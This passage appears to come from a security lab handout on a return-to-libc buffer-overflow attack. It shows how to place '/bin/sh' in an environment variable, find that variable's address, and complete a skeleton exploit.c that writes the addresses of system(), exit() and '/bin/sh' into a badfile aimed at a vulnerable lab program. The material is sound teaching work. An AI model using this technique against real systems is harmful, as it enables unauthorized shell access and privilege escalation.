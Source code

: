 ```bash
$ export MYSHELL=/bin/sh
$ env | grep MYSHELL
MYSHELL=/bin/sh
```

We will use the address of this variable as an argument to system() call. The location of this variable in the memory can be found out easily using the following program:

```C
void main(){
  char* shell =  getenv("MYSHELL");
  if (shell)
    printf("%x\n", (unsigned int)shell);
}
```

If the address randomization is turned off, you will find out that the same address is printed out. However, when you run the vulnerable program retlib, the address of the environment variable might not be exactly the same as the one that you get by running the above program; such an address can even change when you change the name of your program (the number of characters in the file name makes difference).  The good news is, the address of the shell will be quite close to what you print out using the above program. Therefore, you might need to try a few times to succeed.

### Task 3: Exploiting the Buffer-Overflow Vulnerability
We are ready to create the content of badfile. Since the content involves some binary data (e.g., the address of the libc functions), we wrote a C program to do the construction. We provide you with as keleton of the code, with the essential parts left for you to fill out.

```C
/* exploit.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
  char buf[40];
  FILE *badfile;
  badfile = fopen("./badfile", "w");
  /* You need to decide the addresses and
     the values for X, Y, Z. The order of the following
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
  *(long *) &buf[X] = some address ;   //  "/bin/sh"          (?)
  *(long *) &buf[Y] = some address ;   //  system()           (?)
  *(long *) &buf[Z] = some address ;   //  exit()             (?)

  fwrite(buf, sizeof(buf), 1, badfile);
  fclose(badfile);
}
```

You need to figure out the addresses in lines marked by (?), as well as to find out where to store those addresses (i.e., the values for X, Y, and Z). If your values are incorrect, your attack might not work. 
